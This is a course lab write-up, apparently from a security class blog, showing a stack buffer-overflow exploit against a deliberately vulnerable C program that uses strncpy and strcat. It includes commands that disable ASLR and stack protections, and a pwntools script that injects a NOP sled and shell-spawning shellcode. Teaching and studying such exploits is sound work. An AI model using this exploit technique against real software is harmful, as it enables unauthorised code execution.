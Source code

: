 ```yaml
---
layout: post
title: Adjacent Memory Shellcode
category: system_security
author: 'reo'
tags: python seclab docker c privilege_escalation
mathjax: 
---
```


It is sometimes mistakenly said that `strncpy()` is guaranteed to prevent
the issues that come with buffer overflow. This exercise is an example of
a buffer-overflow on a program which uses `strncpy()`.

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

The vulnerable program is

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

#define BUFFER_SIZE 1000
#define on_error(...) { fprintf(stderr, __VA_ARGS__); fflush(stderr); exit(1); }

void echo(char *arg1, char *arg2){
     char result[BUFFER_SIZE*2];
     char input1[BUFFER_SIZE];
     char input2[BUFFER_SIZE];

     strncpy(input1, arg1, BUFFER_SIZE);
     strncpy(input2, arg2, BUFFER_SIZE);
     strcat(result, input1);
     strcat(result, input2);
     printf("Echo Response: %s\n", result);
}

int main(int argc, char **argv){
    if (argc < 3) on_error("Usage: %s [argument1] [argument2]\n", argv[0]);
    echo(argv[1], argv[2]);
    return 0;
}
```

Following our previous similar labs,
ASLR and dmesg restrict are disabled

```
$ docker run --rm -v $(pwd):/shared --privileged -it thierrysans/vulnerable:stack-smashing-shellcode bash
# echo 0 > /proc/sys/kernel/randomize_va_space
# echo 0 > /proc/sys/kernel/dmesg_restrict
```

<br>

***

## The Exploit

***

Though `strncpy()` only copies a set number of bytes, `strcat()` has the flexibility we need for the exploit.
We start by compiling and disassembling the executable

```
/shared# gcc vuln.c -o vuln -fno-stack-protector -m32 -z execstack
/shared# objdump -d -M intel vuln > dump.dmp
```

Since there are two buffers, we have two payloads and from the decompilation we know
the memory looks something like

```
      +--------+ <- start of second buffer
      |        |
      |        |
      |        |
      |        |
      |        |
      |        |
      |        |
      |        |
      +--------+ <- start of first buffer
      |        |
      |        |
      |        |
      |        |
      |        |
      |        |
      |        |
      +--------+
      ~  ..... ~
      +--------+
      |        | <- return address
      |        |
      +--------+  
```

The goal is to craft payloads so after the exploit it looks more like

```
      +--------+ <- start of second buffer
      |  NOP   |
      |  SLED  |
 addr |        | <- want to jump somewhere in the middle
      |        |
      +--------+
      | SHELL  | <- our planted shellcode
      | CODE   |
      |        |
      |        |
      |        |
      |        |
      +--------+
      ~  ..... ~ <- additional padding b'b'
      +--------+
      |   a    |
      |   a    |
      |   a    |
      +--------+
      ~  ..... ~ <- padding b'a'
      +--------+
      |  addr  | <- return address
      |        |
      +--------+  
```

The exploit starts very much like our [previous exercise]().

```python
from pwn import *
from shellcode import get_shellcode

pwnlib.term.term_mode= False

''' returns the payload for the attack
    given the path to the vulnerable binary
    and the shellcode from get_shellcode in shellcode.py
    (string, bytes) -> bytes
'''
def craft_payload(path_to_vuln_prgm, shellcode):
    # size of buffers after compilation:
    # result: 2008 (shift by 0x7d8)
    # input1 and input2: 1000 (shift by 0xbc0 and 0xfa8 respectively)
    p = process([path_to_vuln_prgm, b'a'*508, b'b'*1000])
    p.wait_for_close()
    debug_msg = process('dmesg | grep "vuln" | tail -n 1', stdout=subprocess.PIPE,
            shell=True).recvall()

    esp = int(re.search(b'sp\ (.*)\ error', debug_msg).group(1), 16)

    # want 4294951440
    # addr = 0xffffc210
    addr = esp - 3250
    nop_len = 768
```

A small technical point is that pwnlib complains if we have null bytes in the argument.
After some experimentin, we notice the first two bytes tend to be `0xff` and the next
one quite large (around `0xc0`) so the problem one is the lowest which can be `0x00`.
A simple solution is if we detect this, simply shift it so we land on our NOP sled

```python
    if b'\x00' in p32(addr)[:-1]:
        addr = addr + 32
    payload1 = b'a'* 504 + p32(addr)
    payload2 = b'\x90'*nop_len + shellcode + b'b'*(1000-len(shellcode)-nop_len)
    return (payload1, payload2)
```

notice `payload2` has no null terminator so `strcat()` will overflow
its contents into the first buffer

Finally, we have the main driver for our exploit which is also quite similar to last
time

```python
def run(path_to_vuln_prgm):
    interactive, shellcode = get_shellcode()
    payload = craft_payload(path_to_vuln_prgm, shellcode)
    p = process([path_to_vuln_prgm, payload[0], payload[1]])
    p.interactive()
```

with `shellcode.py` being

```python
from pwn import *

def get_shellcode():
      return asm(shellcraft.i386.linux.sh())
```

<br>

***

## Cleanup

***

When cleaning up,
make sure that the security features on your machine have not been altered:

```
$ echo 2 > /proc/sys/kernel/randomize_va_space
$ echo 1 > /proc/sys/kernel/dmesg_restrict
```

also don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

Adjacent Memory shell inspired by [this article](https://www.exploit-db.com/papers/13148)

